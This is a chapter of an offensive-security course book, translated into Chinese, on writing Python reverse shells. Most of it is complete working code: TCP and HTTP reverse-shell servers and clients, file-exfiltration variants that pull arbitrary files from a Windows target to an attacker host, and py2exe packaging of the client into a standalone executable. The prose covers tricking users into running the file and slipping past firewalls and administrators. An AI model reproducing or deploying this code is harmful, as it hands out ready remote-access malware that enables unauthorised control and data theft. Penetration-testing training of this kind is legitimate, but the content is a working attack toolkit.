# 预热 – 您的第一个无病毒软件的持久化 Shell

如今，防火墙、入侵防御系统（IPS）和沙盒等安全解决方案正变得越来越先进，以防止和检测网络攻击。因此，成为一名高级黑客需要编写自己的脚本和工具，以绕过这些安全解决方案。

本章将涵盖以下主题：

+   准备攻击者机器

+   准备目标机器

+   TCP 反向 Shell

+   HTTP 反向 Shell

+   持久化

+   调整连接尝试

+   防止 Shell 崩溃的小贴士

+   对策

# 准备攻击者机器

在本节中，我们将准备 Kali Linux 机器作为攻击者。请注意，我们假设操作系统已经在 VMware 或 VirtualBox 中设置好。目前，我们将使用 VirtualBox 来处理所有章节。

我们可以通过运行以下 `cat` 命令来检查任何 Linux 操作系统的版本，显示来自文件 `/etc/os-release` 的内容，该文件包含操作系统的分发数据。我们将使用 Kali Linux 版本 2018.1，正如下图所示：



无论您的 Kali 版本是什么，对于本书，我们将使用写作时可用的最新版本。由于 Python 默认预安装在每个 Linux 发行版中，我们可以通过在交互式 Shell 中运行 `python` 命令或使用 `python -V` 来获取版本信息，如下图所示：


我们现在将使用 `Python 2.7.14+`，该版本已预安装在我们的 Linux 版本中。

那么，让我们稍微配置一下网络。在本章中，Kali 的 IP 地址是 `10.0.2.15`。我们可以通过运行 `ifconfig eth0` 命令来检查 Kali 的 IP 地址。这将返回网络接口配置，如下所示：


# 设置互联网访问

为了在系统上设置互联网，我们只需要将网络模式更改为 **网络地址转换**（NAT）模式，在 VirtualBox 中，NAT 模式将所有网络活动伪装成来自主机操作系统的请求，尽管 VirtualBox 可以访问外部资源。要执行此操作，请按照以下步骤进行：

1.  从 VirtualBox 的菜单栏点击 **设备** 菜单

1.  转到网络并选择网络设置

1.  选择网络模式为 **NAT** 并点击 OK，如下图所示： 

一旦执行了上述步骤，只要 VirtualBox 主机能够连接互联网，您就应该能够访问互联网。您可以通过从终端运行 `ping 8.8.8.8` 来检查网络连接。

现在，如果您没有 Python 的 GUI 编译器，可以通过以下命令安装：

```
apt-get install idle
```

安装完成后，让我们使用**IDLE（使用 Python-2.7）**做一个快速的打印程序，该程序是通过前面命令安装的。打开一个新的 Python 文件，输入`print ('hello there')`。运行程序并将其保存到桌面。完成此操作后，访问互联网后，你需要将网络模式更改回内部网络，以便能够连接到 Windows 目标。如下图所示：

请注意，Windows 目标机器和 Kali 攻击者机器都位于相同的内部网络`intnet`上。

作为最后一步，我们应该验证是否仍然获得相同的 IP 地址，即通过在终端中运行`ifconfig`命令，得到`10.0.2.15`。

如果 IP 发生变化，可以通过运行`ifconfig eth0 10.0.2.15`将 IP 改回。

# 准备目标机器

在本节中，我们将准备我们的目标。我们使用的是一台 32 位 Windows 7 机器作为目标。我们将从[`www.python.org/downloads/`](https://www.python.org/downloads/)安装 Python 2.7.14+版本。在你开始安装时，你会注意到 Python 还会安装一些其他实用工具，如`pip`和`easy_install`。稍后我们将使用`pip`来安装第三方库。

类似于我们在 Kali 中做的，我们将创建一个快速简单的 Python 脚本，确保一切正常运行。创建一个新文件，输入`print ('hi')`，运行脚本并将其保存到桌面。完成此操作后，我们需要将 Python 添加到路径中，这样就可以从命令行的任何位置启动交互模式或交互式终端。打开命令行并输入`python`；你会看到 Windows 默认不识别`python.exe`应用程序，因此我们需要手动添加它。

执行以下步骤以实现这一点：

1.  转到高级系统设置 | 环境变量。

1.  在系统变量中，向下滚动直到找到变量 Path。你需要在此处附加 Python 路径和`pip`路径。

1.  复制 Python 应用程序的安装路径，并将其附加到变量值中。

1.  确保在末尾插入分号，以确保它被附加到我们现有的变量值中。

1.  同样，复制`pip`安装路径（位于`/Scripts`文件夹中），并将其附加到变量值中，如下图所示：

1.  重启机器，以便它能识别我们刚刚插入的新值。

1.  重启完成后，打开命令行并输入`python`，交互式终端将会出现：

1.  现在，为了与我们的 Kali 机器建立连接，请确保网络设置为“内部网络”，并且网络名称与 Kali 端的名称匹配，即`intnet`：

    

1.  最后，我们需要为这台机器分配一个与 Kali 机器处于同一子网的 IP 地址。我们可以通过控制面板进入网络和 Internet/网络和共享中心来更改网络设置。点击本地连接，然后点击属性。在这里，进入互联网协议版本 4 (TCP/IPv4)，输入 IP 地址为 `10.0.2.10`，并按照以下截图所示填写其余内容。然后点击确认：

我们已经在目标机器上安装了 Python 编译器，目的是更好地解释代码并进行编译。然而，我们稍后将把 Python 脚本编译成独立的 EXE 文件，这样它就可以在任何没有安装 Python 编译器的目标上运行。

# TCP 反向 Shell

在本节中，我们将快速概述 TCP 反向 Shell，为什么我们需要反向连接，以及什么是 shell。回答这些问题的最佳方法是研究以下图示的拓扑结构：



假设我们有一个**攻击者**连接到**互联网**的某个地方，右侧是我们的**目标**。所以，从技术上讲，我们有一台完全修补的计算机，并且启用了**内置防火墙**，同时也有企业防火墙在运行。而且，很可能**企业防火墙**已经集成了**入侵防御系统 (IPS)**模块或**杀毒软件**。因此，现在，攻击者要访问这台受保护的计算机，面临两个主要问题。首先，攻击者需要绕过操作系统上的内置防火墙或主机防火墙，默认情况下，防火墙会阻止任何进入该计算机的连接，除非明确允许；同样的规则也适用于企业防火墙。

但是，如果攻击者能以某种方式找到向用户发送恶意文件的方法，或者可能欺骗用户访问我们的恶意网站并下载恶意文件，那么我们可能会危及该计算机，甚至可能是整个网络。因此，为了绕过防火墙根本限制，我们需要让我们的目标，也就是 TCP 客户端，主动发起连接回我们。所以，在这种情况下，我们充当 TCP 服务器，而我们的目标或受害者充当 TCP 客户端，这正是我们需要反向 shell 的原因。

现在，我们需要先理解什么是 shell。如果我们可以在目标机器上启动 `cmd` 进程，并将该进程绑定到网络套接字上，那么这就被称为**反向 Shell**。因此，当我们说将 TCP 反向 Shell 发送到端口 `123` 时，意味着一旦受害者运行该文件，我们预期会在端口 `123` 接收到反向 TCP 连接。所以，在这种情况下，目标端口将是 `123`，我们应该在这个端口上监听。因此，这个端口应该在我们的 Kali 机器上开放。然后，在完成 TCP 三次握手后，我们可以向受害者/目标发送某些命令，让受害者执行，并将结果返回给我们。

请记住，结合社会工程学和客户端攻击（我们在这里讨论的），是最强大的攻击类型，并且很有可能成功。

# 编写一个 TCP 反向 shell

在本节中，我们将在 Kali 机器上调用一个示例 TCP 服务器，并在目标机器上调用一个示例 TCP 客户端。然后，我们将看到如何从 Kali 机器远程执行一些命令。

# 服务器端

让我们从服务器端开始。在 Python 中构建一个 TCP 服务器非常简单：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# Basic TCP Server 

import socket # For Building TCP Connection

def connect():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # start a socket object 's'

    s.bind(("10.0.2.15", 8080)) # define the kali IP and the listening port

    s.listen(1) # define the backlog size, since we are expecting a single connection from a single
                                                            # target we will listen to one connection

    print '[+] Listening for incoming TCP connection on port 8080'

    conn, addr = s.accept() # accept() function will return the connection object ID (conn) and will return the client(target) IP address and source
                                # port in a tuple format (IP,port)

    print '[+] We got a connection from: ', addr

    while True:

        command = raw_input("Shell> ") # Get user input and store it in command variable

        if 'terminate' in command: # If we got terminate command, inform the client and close the connect and break the loop
            conn.send('terminate')
            conn.close()
            break

        else:
            conn.send(command) # Otherwise we will send the command to the target
            print conn.recv(1024) # and print the result that we got back

def main ():
    connect()
main()
```

如前面的代码所示，脚本首先导入了`socket`库，它负责编写低级网络接口。`AF_INIT` 定义了套接字地址为一对：主机和端口。在这种情况下，它将是`10.10.10.100`，端口是`8080`。`SOCK_STREAM` 是套接字类型的默认模式。现在，bind 函数指定了 Kali IP 地址和监听端口的元组格式，即`10.10.10.100`，我们应该在端口`8080`上监听以接收连接。

由于我们只期望来自单个目标的单个连接，因此我们将监听一个连接。所以，backlog 大小，指定最大排队连接数，是`1`；我们将监听值定义为`1`。现在，`accept` 函数返回一对连接对象（`conn`）的值，以及地址（`addr`）。这里的地址是目标的 IP 地址和用于从目标发起连接回我们的源端口。接下来，我们将进入一个无限循环，获取我们的命令输入并将其发送到目标机器。这个原始输入用于获取用户输入。如果用户输入的是`terminate`，我们将通知目标我们希望关闭会话，然后我们会从我们这边关闭会话。否则，我们将向目标发送一个`command`，并且我们将读取并打印从目标端收到的前 1 KB 数据。

# 客户端

现在，让我们看一下客户端脚本：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# Basic TCP Client

import socket # For Building TCP Connection
import subprocess # To start the shell in the system

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # start a socket object 's' 
    s.connect(('10.0.2.15', 8080)) # Here we define the Attacker IP and the listening port

    while True: # keep receiving commands from the Kali machine
        command = s.recv(1024) # read the first KB of the tcp socket

        if 'terminate' in command: # if we got terminate order from the attacker, close the socket and break the loop
            s.close()
            break 

        else: # otherwise, we pass the received command to a shell process

            CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
            s.send( CMD.stdout.read() ) # send back the result
            s.send( CMD.stderr.read() ) # send back the error -if any-, such as syntax error

def main ():
    connect()
main()
```

我们导入`subprocess`来启动 shell 和系统。接下来，连接部分相当简单。我们定义`s`和`socket`对象，并指定 Kali 机器的 IP 地址和我们应该发起连接的端口。我们在 Kali 机器上监听的端口必须与我们从目标机器发起连接的端口完全匹配。与服务器端类似，我们将进入一个无限循环并获取攻击者的命令。如果攻击者的命令是`terminate`，或者命令中包含`terminate`关键字或字符串，则我们关闭连接并打破无限循环；否则，我们将使用`subprocess`启动系统中的 shell。我们将把从攻击者机器接收到的命令传递给`subprocess`，并获取结果或错误。请注意，`subprocess`有一种自我处理异常的机制。例如，如果我们在 Kali 端输入了错误的命令并将错误的语法发送给目标，`stderr`不会导致进程崩溃，而是处理异常并返回错误。

让我们从之前用于`hello there`程序的 Python IDE 快速尝试一下我们的脚本。首先点击运行并选择运行模块，启动服务器端。只是为了验证我们是否已经在`8080`端口上打开了监听器，运行以下命令：

```
 netstat -antp | grep "8080"
```


如你所见，`python2.7`已经打开了端口并在监听。现在在另一个虚拟机上运行目标脚本。正如以下截图所示，我们从`10.0.2.10`的 IP 地址获取到了我们的 shell，而这个 IP 地址是我们的 Windows 机器的 IP 地址，源端口为`49160`：


让我们从`ipconfig`和`dir`开始，稍微探索一下目标机器：



让我们尝试`arp -a`。现在我们获取目标机器上的 ARP 表：



如前面的截图所示，输入错误命令时，子进程的`stderr`返回错误的语法，而不是使脚本崩溃。

为了快速回顾我们到目前为止所做的工作，我们已经建立了一个反向 TCP 隧道，并通过原始输入获取了用户输入。当我们输入`arp -a`时，原始输入将获取该命令，然后我们将其发送到目标机器。一旦在目标端接收到命令，我们将启动`cmd`作为子进程，发送错误或结果并在目标端打印出来。

如果连续按几次*Enter*键，shell 将崩溃。

# 数据外泄 – TCP

在上一节中，我们已经学习了如何导航目标目录。现在我们将看到如何抓取这些文件。在从目标机器抓取任何数据之前，请确保交战规则明确允许这样做。

# 服务器端

那么，让我们从更新后的服务器端脚本开始：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# TCP Data Exfiltration Server

import socket 
import os # Needed for file operation

# In the transfer function, we first create a trivial file called "test.png" as a file holder just to hold the 
# received bytes , then we go into infinite loop and store the received data into our file holder "test.png", however
# If the requested file doesn't exist or if we reached the end of the file then we will break the loop
# note that we could know the end of the file, if we received the "DONE" tag from the target side

# Keep in mind that you can enhance the code and dynamically change the test.png to other file extension based on the user input

def transfer(conn,command):

    conn.send(command)
    f = open('/root/Desktop/test.png','wb')
    while True: 
        bits = conn.recv(1024)
        if 'Unable to find out the file' in bits:
            print '[-] Unable to find out the file'
            break
        if bits.endswith('DONE'):
            print '[+] Transfer completed '
            f.close()
            break
        f.write(bits)

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("10.0.2.15", 8080))
    s.listen(1)
    print '[+] Listening for incoming TCP connection on port 8080'
    conn, addr = s.accept()
    print '[+] We got a connection from: ', addr

    while True: 
        command = raw_input("Shell> ")
        if 'terminate' in command:
            conn.send('terminate')
            conn.close() 
            break

# if we received grab keyword from the user input, then this is an indicator for
# file transfer operation, hence we will call transfer function

# Remember the Formula is grab*<File Path>
# Example: grab*C:\Users\Hussam\Desktop\photo.jpeg

        elif 'grab' in command: 
            transfer(conn,command)

        else:
            conn.send(command) 
            print conn.recv(1024) 

def main ():
    connect()
main()
```

`elif 'grab' in command:`代码表明这不是一个普通的命令；此命令用于传输文件。因此，服务器和客户端必须就此指示符或公式达成一致。现在，公式将是`grab`，后面跟上`*`和我们要抓取的文件路径，例如，`grab*C:\Users\Hussam\Desktop\photo.jpeg`。

# 客户端

现在，让我们看看客户端脚本：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# TCP Data Exfiltration Client

import socket 
import subprocess 
import os # needed for file operations

# In the transfer function, we first check if the file exists in the first place, if not we will notify the attacker
# otherwise, we will create a loop where each time we iterate we will read 1 KB of the file and send it, since the
# server has no idea about the end of the file we add a tag called 'DONE' to address this issue, finally we close the file

def transfer(s,path):
    if os.path.exists(path):
        f = open(path, 'rb')
        packet = f.read(1024)
        while packet != '':
            s.send(packet) 
            packet = f.read(1024)
        s.send('DONE')
        f.close()

    else: # the file doesn't exist
        s.send('Unable to find out the file')

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('10.0.2.15', 8080))

    while True: 
        command = s.recv(1024)

        if 'terminate' in command:
            s.close()
            break 

# if we received grab keyword from the attacker, then this is an indicator for
# file transfer operation, hence we will split the received commands into two
# parts, the second part which we intrested in contains the file path, so we will
# store it into a variable called path and pass it to transfer function

# Remember the Formula is grab*<File Path>
# Example: grab*C:\Users\Hussam\Desktop\photo.jpeg

        elif 'grab' in command: 
            grab,path = command.split('*')

            try: # when it comes to low level file transfer, a lot of things can go wrong, therefore
                                          # we use exception handling (try and except) to protect our script from being crashed
                                          # in case something went wrong, we will send the error that happened and pass the exception
                transfer(s,path)
            except Exception,e:
                s.send ( str(e) ) # send the exception error
                pass

        else:
            CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
            s.send( CMD.stdout.read() ) 
            s.send( CMD.stderr.read() ) 

def main ():
    connect()
main()
```

如前所述，客户端和服务器必须就`grab`公式达成一致。所以，在客户端，如果我们接收到一个 grab 字符串，我们会将命令分成两部分，`*`前后的部分，其中第二部分包含路径，我们会将路径存储在 path 变量中。为了确保我们的脚本在传输过程中如果发生问题不会崩溃，我们将使用异常处理器。

接下来，我们将`path`变量传递给`transfer`函数。所以，在`transfer`函数中，我们首先要做的就是检查请求的文件是否存在。如果不存在，我们将把`'无法找到文件'`的消息发送给服务器。

接下来，我们将文件分成若干部分或块，每个块的大小为 1KB，我们将循环读取，直到文件的末尾。当我们这样做时，需要发送一个指示符或标签给服务器端，表明我们已经到达文件的末尾。因此，前面代码块中的`DONE`字符串用于指示我们已经到达文件末尾。

现在，在服务器端，我们创建一个占位符或文件持有者。我们将把接收到的字节存储在`test.png`中，这里就是文件持有者。当控制进入循环，每次读取 1KB 的数据时，它会写入`test.png`。当接收到`DONE`字符串时，意味着我们已经到达文件的末尾。此时，文件会被关闭，循环结束。另外，如果服务器收到`无法找到文件`，它会打印出来并中断循环。

现在，再次运行服务器脚本，我们将监听端口`8080`。一旦在目标端运行脚本，我们就能获得 shell。接下来，进入目录并尝试通过运行`grab*Module2.pdf`命令来获取`Module2.pdf`：



当我们输入上述命令时，它将在客户端和服务器端都触发`if`语句。因此，当我们在目标端接收到`grab*Module2.pdf`时，我们将把这个命令分为两部分。第二部分包含`Module2.pdf`，即我们要抓取的文件。我们将如前所述将其存储在 path 变量中。代码将检查文件是否存在，按块读取，并将其发送到服务器端。这将在服务器端返回响应：`[+] 传输完成`。

在桌面上找到文件，它现在叫做`1.txt`，将文件扩展名改为`.pdf`，并重命名文件，因为我们知道这不是一个图片，而只是一个占位符。现在，用任何 PDF 阅读器打开`Module2.pdf`，以确保文件没有损坏。如果没有损坏，它将正常打开。

让我们试试另一个。现在，我们将抓取`Tulips.png`：



由于我们要抓取的文件与我们的文件夹具有相同的扩展名，即`.png`，因此我们不需要更改文件扩展名。

尝试抓取任何已存在的文件，但同样的规则适用：更改文件名为其原始扩展名。让我们尝试一个不存在的文件。回到我们的终端，输入`grab*blaaaah.exe`，它将抛出一个错误，如下图所示：


这将导致我们的脚本在目标机器上崩溃，运行`ipconfig`时你会看到这个问题。

你可能期待我们使用一个知名协议，如 FTP、SCP 或安全 FTP 来进行文件传输。但我们使用了通过 TCP 套接字进行的低级文件传输，因此你可能会问为什么要这么做。由于这些知名协议可能会被防火墙屏蔽，我们将无法传输任何文件。我们在这里所做的是，不每次传输文件时都启动一个新的通道，这可能会引起管理员的注意，而是创建一个 TCP 套接字，一个会话来获取访问权限，执行远程 Shell 操作，以及进行文件传输。这种类型的传输称为**内联传输**，我们通过一个通道和一个会话来执行所有需要的操作。

# 导出为 EXE

有多种方法可以将 Python 脚本导出为独立的 EXE 文件。今天我们将使用`py2exe`库。你可以从[`sourceforge.net/projects/py2exe/files/py2exe/0.6.9/`](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/)下载`py2exe-0.6.9.win32-py2.7.exe`版本。

首先，安装这个库。安装过程非常简单，只需按照屏幕上的提示进行操作。

安装完成后，在 Windows 机器上打开 Python 窗口并导入`py2exe`，以确保我们能够毫无异常地导入此库。输入`python`，然后导入`py2exe`。如果没有抛出错误，说明成功：


现在，在桌面上创建一个名为`Toexe`的文件夹。这个文件夹里应该有三样东西：`py2exe`二进制文件、`py2exe`安装文件和你的`Client.py`脚本文件。为了简便起见，将二进制文件重命名为`py2exe`。

安装文件`setup.py`将设置最终独立 EXE 文件的标准：

```
# py2exe download link: http://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/

from distutils.core import setup
import py2exe , sys, os

sys.argv.append("py2exe")
setup(
    options = {'py2exe': {'bundle_files': 1}},

    windows = [{'script': "Client.py"}], 
    zipfile = None,

)
```

在`setup.py`脚本中，我们首先将`py2exe`二进制文件添加到我们的目录中。然后，我们将`bundle_files`设置为`1`。定义我们的脚本名称为`Client.py`。将`zipfile`设置为`None`并运行该`setup`文件。

执行上述步骤后，将创建两个文件夹，分别名为`build`和`dist`，如下图所示：



所以在`dist`文件夹下，我们得到了独立的`Client.exe`，没有任何依赖。现在，运行`Client.exe`时，我们将建立连接（前提是前一节中的服务器脚本*数据窃取*在 Kali 侧运行），我们可以看到`Client.exe`进程已在 Windows 任务管理器中创建，如下图所示：



因此，再次进行如下的快速验证：

1.  运行`ipconfig`

1.  浏览目录

1.  获取一个文件，例如`Koala.png`，并等待其成功传输：



1.  将文件扩展名更改为`.png`

1.  现在，打开图片，成功查看后，终止`Client.exe`进程

1.  在你的 Kali 机器上的 Shell 中执行`terminate`

1.  一旦你按下*Enter*，目标机器上的进程将被终止

# HTTP 反向 Shell

在本节中，我们将讨论一个更高层次的 Python 反向 Shell，它将通过 HTTP 协议进行传输。由于 HTTP 协议通常会在出站或出口防火墙规则中被允许，因为它用于网页浏览，因此非常有可能已被开放。此外，每个网络中都需要大量的 HTTP 流量，这使得监控更加困难，犯错的机会较高。让我们看看它是如何工作的。

首先，我们将配置一个简单的 HTTP 服务器和一个简单的 HTTP 客户端，我们将使用`GET`和`POST`方法在这两个实体之间来回发送数据。如前所述，客户端将使用`GET`方法发起一个反向 HTTP 会话回到我们的服务器，而在服务器端，一旦我们收到`GET`请求，我们将开始使用原始输入接收命令，并将该命令发送回目标。

一旦我们向目标发出命令，它将启动一个子进程：一个`cmd.exe`子进程。将命令传递给该子进程，它将使用`POST`方法将结果返回给我们。为了确保我们的 Shell 能够持续运行，我们会执行`sleep` 3 秒。然后，我们将使用`while True:`无限循环重复整个过程。与之前的 TCP 套接字相比，这段代码要简单得多，尤其是在文件传输部分，这是因为我们使用的是高层协议来传输文件和数据。下一部分将处理编码部分。

# 编写 HTTP 反向 Shell

在本节中，我们将涵盖 HTTP 反向 Shell 的编码部分。在客户端，我们将使用一个非常高层的库来发送我们的`GET`和`POST`请求。

这个名为`Requests`的库，位于[`pypi.python.org/pypi/requests/2.7.0#downloads`](https://pypi.python.org/pypi/requests/2.7.0#downloads)，使得发送`GET`或`POST`请求变得更加简单，只需要一行代码。`Requests`是一个第三方库，因此我们首先需要安装它。你只需通过命令提示符导航到包含其安装文件的文件夹，然后执行`python setup.py install`。

要验证库是否已成功安装，打开 Python 解释器，就像我们之前为`py2exe`做的那样，输入`import requests`。如果这里没有抛出异常，那么我们就可以开始使用了：


# 服务器端

以下代码块位于服务器端：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# Basic HTTP Server

import BaseHTTPServer # Built-in library we use to build simple HTTP server 

HOST_NAME = '10.10.10.100' # Kali IP address 
PORT_NUMBER = 80 # Listening port number 

class MyHandler(BaseHTTPServer.BaseHTTPRequestHandler): # MyHandler defines what we should do when we receive a GET/POST request
                                                          # from the client / target

    def do_GET(s):
                                         #If we got a GET request, we will:- 
        command = raw_input("Shell> ") #take user input
        s.send_response(200) #return HTML status 200 (OK)
        s.send_header("Content-type", "text/html") # Inform the target that content type header is "text/html"
        s.end_headers()
        s.wfile.write(command) #send the command which we got from the user input

    def do_POST(s):
                                                     #If we got a POST, we will:- 
        s.send_response(200) #return HTML status 200 (OK)
        s.end_headers()
        length = int(s.headers['Content-Length']) #Define the length which means how many bytes the HTTP POST data contains, the length
                                                     #value has to be integer 
        postVar = s.rfile.read(length) # Read then print the posted data
        print postVar

if __name__ == '__main__':

    # We start a server_class and create httpd object and pass our kali IP,port number and class handler(MyHandler)

    server_class = BaseHTTPServer.HTTPServer
    httpd = server_class((HOST_NAME, PORT_NUMBER), MyHandler)

    try: 
        httpd.serve_forever() # start the HTTP server, however if we got ctrl+c we will Interrupt and stop the server
    except KeyboardInterrupt: 
        print '[!] Server is terminated'
        httpd.server_close()
```

在服务器端，我们将使用一个名为`BaseHTTPServer`的内建库来构建一个基本的 HTTP 服务器，用于处理客户端请求。接下来，我们通过将`PORT_NUMBER`设置为`80`来定义 Kali IP 和监听端口地址。然后，我们创建`server_class`和`httpd`对象，并将监听 IP、`PORT_NUMBER`以及类处理程序`MyHandler`传递给`server_class`。类处理程序`MyHandler`定义了当服务器接收到`GET`或`POST`请求时应执行的操作。服务器将永久运行，无需编写`while True:`。

现在，如果服务器接收到一个`GET`请求，它将使用原始输入获取用户输入，并发送一个 HTML 状态`200`，表示一切正常。此时，`send_header()`指定了头字段的定义。由于我们的 HTTP 客户端需要知道数据的类型，因此设置此值是强制性的。在此情况下，数据类型是 HTML 文本，`text/html`。`wfile.write()`函数等同于我们之前 TCP shell 中发送数据的方式，我们将使用该函数将用户输入的命令发送到目标。

如果服务器首先接收到一个`POST`请求，类似于`GET`请求，我们将返回一个 HTML 状态`200`，表示我们已经成功接收到`POST`请求而没有任何问题。`s.headers['Content-Length']`指定了`HTTP POST`数据所包含的字节数。请注意，返回的值是一个字符串，但在将其作为参数传递给`rfile.read()`之前，必须将其转换为整数。我们将使用`integer`函数来进行此转换。最后，我们将打印`postVar`变量，在这种情况下，它将是命令执行的输出。服务器将使用`serve_forever()`函数永久运行，而无需编写`while True:`循环。然而，如果我们从键盘按下*Ctrl* + *C*，它将中断循环。

# 客户端

以下代码块位于客户端：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# Basic HTTP Client

import requests # Download Link https://pypi.python.org/pypi/requests#downloads , just extract the rar file and follow the video :)
import subprocess 
import time

while True: 

    req = requests.get('http://10.0.2.15') # Send GET request to our kali server
    command = req.text # Store the received txt into command variable

    if 'terminate' in command:
        break 

    else:
        CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        post_response = requests.post(url='http://10.0.2.15', data=CMD.stdout.read() ) # POST the result 
        post_response = requests.post(url='http://10.0.2.15', data=CMD.stderr.read() ) # or the error -if any-

    time.sleep(3)
```

在这里，我们使用 subprocess 来创建一个 shell，然后我们创建一个 `GET` 请求发送到我们的 Kali 服务器。请注意，`req.text` 函数返回的是我们通过发送 `GET` 请求所获得的文本。在这个例子中，`text` 就是我们应该执行的命令。现在，一旦我们获得了命令，我们将启动一个子进程，执行结果或错误将通过 `POST` 方法发送，并且只会是单行的。然后，进程将休眠 3 秒，再次重复整个过程。`time.sleep()` 这部分只是为了保险——防止我们遇到数据包丢失或意外的错误。

此外，你可以通过使用 `try` 和 `except` 函数添加一些异常处理来增强这个脚本。

一旦我们在双方运行脚本，我们将在服务器端获得我们的 shell，并尝试在当前工作目录中进行导航。执行 `ipconfig`，你将获得完整的 IP 配置信息。现在，错误地输入一个命令，将会抛出错误信息，如下所示：



最后，我们通过在服务器端执行 `terminate` 来终止会话。一旦我们这样做，我们将在客户端退出脚本，而在服务器端退出脚本时，我们需要按 *Ctrl* + *C* 来终止循环。服务器将通过显示 `[!] Server is terminated` 消息来终止。

# 数据外泄 – HTTP

和我们之前在 TCP 反向 shell 中做的类似，我们将进行一个从目标机器到攻击者机器的文件传输。

# 客户端

幸运的是，`Requests` 库支持仅用两行代码提交一个文件：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# HTTP Data Exfiltration Client

import requests 
import subprocess 
import os
import time

while True: 

    req = requests.get('http://10.0.2.15')
    command = req.text

    if 'terminate' in command:
        break # end the loop

# Now similar to what we have done in our TCP reverse shell, we check if file exists in the first place, if not then we 
# notify our attacker that we are unable to find the file, but if the file is there then we will :-
# 1.Append /store in the URL
# 2.Add a dictionary key called 'file'
# 3.requests library use POST method called "multipart/form-data" when submitting files

#All of the above points will be used on the server side to distinguish that this POST is for submitting a file NOT a usual command output
#Please see the server script for more details on how we can use these points to get the file

    elif 'grab' in command:

        grab,path=command.split('*') # split the received grab command into two parts and store the second part in path variable

        if os.path.exists(path): # check if the file is there

            url = 'http://10.0.2.15/store' # Appended /store in the URL
            files = {'file': open(path, 'rb')} # Add a dictionary key called 'file' where the key value is the file itself
            r = requests.post(url, files=files) # Send the file and behind the scenes, requests library use POST method called "multipart/form-data"

        else:
            post_response = requests.post(url='http://10.0.2.15', data='[-] Not able to find the file !' )

    else:
        CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        post_response = requests.post(url='http://10.0.2.15', data=CMD.stdout.read() )
        post_response = requests.post(url='http://10.0.2.15', data=CMD.stderr.read() )

    time.sleep(3)
```

在这里，我们将执行与 TCP 套接字中相同的过程。如果我们从攻击者机器收到一个 `grab` 命令，我们将把这个命令分成两部分，第二部分包含我们要抓取的文件的路径或目录。接下来，我们将检查该文件是否存在。如果没有，我们会立即通知服务器。现在，如果文件确实存在，请注意我们在 URL 中添加了 `/store`，`url = 'http://10.0.2.15/store'`，作为一个标识，表示我们将传输的是文件而不是普通的 `cmd` 输出，因为两者都使用 `POST` 方法传输数据。所以，比如说，当我们发送一个文件，假设是 `x.doc`，我们将带有 `/store` 的 URL 发送它。另外，`Requests` 库使用了一种特殊的 `POST` 方法，叫做 `multipart/form-data`，来提交或发送文件。

# 服务器端

现在，在服务器端，我们导入了一个新的库叫做`cgi`。这个库用于处理接收到的文件并将其存储在本地。以下是服务器端的脚本：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# HTTP Data Exfiltration Server

import BaseHTTPServer

import os, cgi

HOST_NAME = '10.0.2.15' 
PORT_NUMBER = 80 

class MyHandler(BaseHTTPServer.BaseHTTPRequestHandler):

    def do_GET(s):

        command = raw_input("Shell> ")
        s.send_response(200)
        s.send_header("Content-type", "text/html")
        s.end_headers()
        s.wfile.write(command)

    def do_POST(s):

        # Here we will use the points which we mentioned in the Client side, as a start if the "/store" was in the URL
        # then this is a POST used for file transfer so we will parse the POST header, if its value was 'multipart/form-data' then we
        # will pass the POST parameters to FieldStorage class, the "fs" object contains the returned values from FieldStorage in dictionary fashion

        if s.path == '/store':
            try:
                ctype, pdict = cgi.parse_header(s.headers.getheader('content-type'))
                if ctype == 'multipart/form-data' :
                    fs = cgi.FieldStorage( fp = s.rfile, 
                                        headers = s.headers, 
                                        environ={ 'REQUEST_METHOD':'POST' } 
                                      )
                else:
                    print "[-] Unexpected POST request"

                fs_up = fs['file'] # Remember, on the client side we submitted the file in dictionary fashion, and we used the key 'file'
                                    # to hold the actual file. Now here to retrieve the actual file, we use the corresponding key 'file'

                with open('/root/Desktop/1.txt', 'wb') as o: # create a file holder called '1.txt' and write the received file into this '1.txt' 
                    o.write( fs_up.file.read() )
                    s.send_response(200)
                    s.end_headers()
            except Exception as e:
                print e

            return # once we store the received file in our file holder, we exit the function

        s.send_response(200)
        s.end_headers()
        length = int(s.headers['Content-Length'])
        postVar = s.rfile.read(length )
        print postVar

if __name__ == '__main__':
    server_class = BaseHTTPServer.HTTPServer
    httpd = server_class((HOST_NAME, PORT_NUMBER), MyHandler)
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        print '[!] Server is terminated'
        httpd.server_close()
```

